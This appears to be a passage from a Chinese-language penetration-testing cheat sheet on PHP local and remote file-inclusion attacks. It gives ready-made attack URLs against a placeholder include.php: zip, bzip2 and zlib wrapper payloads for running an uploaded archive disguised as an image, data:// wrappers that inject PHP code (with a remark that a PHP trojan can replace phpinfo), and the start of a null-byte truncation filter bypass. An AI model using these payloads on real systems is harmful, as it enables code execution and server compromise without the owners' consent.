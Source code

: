 >访问压缩文件中的子文件，不需要指定后缀名，也可以随意修改后缀名。

  

1.压缩文件且修改后缀then上传

```txt

http://xxx/include.php?file=zip://E:\WWW\phpinfo.jpg%23phpinfo.txt

压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

  

http://xxx/include.php?file=compress.bzip2://E:\WWW\phpinfo.bz2

压缩 phpinfo.txt 为 phpinfo.bz2 并上传

  

http://xxx/include.php?file=compress.zlib://E:\WWW\phpinfo.gz

压缩 phpinfo.txt 为 phpinfo.gz 并上传

```

  

### data://

  

```txt

http://xxx/include.php?file=data://text/plain,<?php%20phpinfo();?>

<yyy>内容可以替换为其他php木马

  

http://xxx/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

  

```

  

## 过滤绕过

<h2>(LFI version)</h2>

  

### 1.%00截断(RFI & LFI)

>在低版本中php读取文件名时认为%00是终止符，对于%00后面的内容就会失效。
